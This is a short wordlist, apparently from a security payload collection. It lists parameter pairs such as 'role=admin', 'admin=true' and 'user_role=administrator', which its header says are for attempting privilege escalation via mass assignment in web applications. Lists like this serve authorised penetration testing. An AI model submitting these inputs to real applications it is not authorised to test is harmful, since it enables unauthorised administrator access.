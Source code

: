 # MassAssignment
These are parameter name value pairs to attempt privilege escalation via mass assignment
role=admin
role=0
..
role=9
admin=true
admin=1
user_role=0
user_role=9
user_role=admin
user_role=administrator
user_role=moderator
user_role=
administrator=true


